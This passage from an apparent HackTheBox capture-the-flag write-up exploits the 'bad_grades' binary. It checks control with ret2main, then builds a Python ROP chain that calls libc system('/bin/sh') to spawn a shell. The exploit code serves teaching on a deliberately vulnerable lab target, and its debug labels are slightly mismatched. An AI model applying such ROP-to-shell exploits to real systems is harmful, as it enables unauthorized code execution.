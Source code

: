 Let's do a ret2main to to confirm that we can control the program's flow.

![ret2main](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/ret2main.png?raw=true)


Done.

Note that we have an "unlimited" input. We could craft a crazy ROPchain, but keep it simple. Let's call system("/bin/sh")



## system()

Let's keep the same pattern:

    def exploit():
        exploit_ropchain = [
            rop.ret[0],
            rop.rdi[0],
            next(libc.search(b'/bin/sh')),
            libc.sym['system'],
        ]
        prepare_rop(array_offset + canary_offset + len(exploit_ropchain) + 1)
        p.sendline(b"0.0") 
        info("Sending payload...")
        info(f"System : {hex(exploit_ropchain[2])}")
        info(f"/bin/sh: {hex(exploit_ropchain[1])}")
        send_ropchain(exploit_ropchain)
        p.interactive()

Find a "/bin/sh" address on the libc. It is a common gadget.

After pushing it into RDI (1st arg), just execute system(). A shell returns, and asks you to cat flag.

![system](https://github.com/Lixhr/HackTheBox/blob/main/PWN/easy/bad_grades/attachments/final.png?raw=true)
